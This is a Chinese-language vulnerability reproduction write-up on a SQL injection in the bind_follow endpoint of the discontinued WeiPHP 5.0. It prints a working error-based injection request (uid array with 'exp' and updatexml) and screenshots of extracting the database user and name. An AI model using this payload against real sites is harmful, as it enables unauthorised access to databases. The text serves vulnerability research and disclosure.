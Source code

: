# WeiPHP5.0 SQL注入漏洞2

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

`WeiPHP5.0`是在2019年停止更新的一个系统，漏洞挺多的，跟着复现分析一下，前面分析了一处由于拼接造成的注入，这里复现一下 `WeiPHP5.0`的另一个`SQL`注入漏洞

## 漏洞影响

`WeiPHP5.0`最新版

可以据此下载

https://www.weiphp.cn/doc/download_source_installation.html

## 漏洞复现

访问如下链接并抓包

```php
/index.php/home/Index/bind_follow
publicid=1&is_ajax=1&uid[0]=exp&uid[1]=)%20and%20updatexml(1,concat(0x7e,md5(%271%27),0x7e),1)--+
```

`post`或者 `get`都可以，这里开了调试模式，因此可以使用报错注入

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1651839360763-e1b05583-a112-4ff3-bf03-6e571b9450f5.png)

爆用户名

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1651839676508-25cdbda5-2cad-4080-b45f-9e94302caf65.png)

爆数据库

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1651839709664-0e27aa69-95a8-467c-91c4-7aeae4325a1c.png)

## 总结

之前对于 `thinkphp`开发的系统很少去弄 `SQL`相关的分析，因为觉得 `thinkphp`可能做得比较完美了，但经过这一次的分析，觉得还是很有开发的潜力。

## 参考链接

- `http://wiki.peiqi.tech/wiki/cms/WeiPHP/WeiPHP5.0%20bind_follow%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html`



`github` 链接：`https://github.com/N0puple/vulPOC`



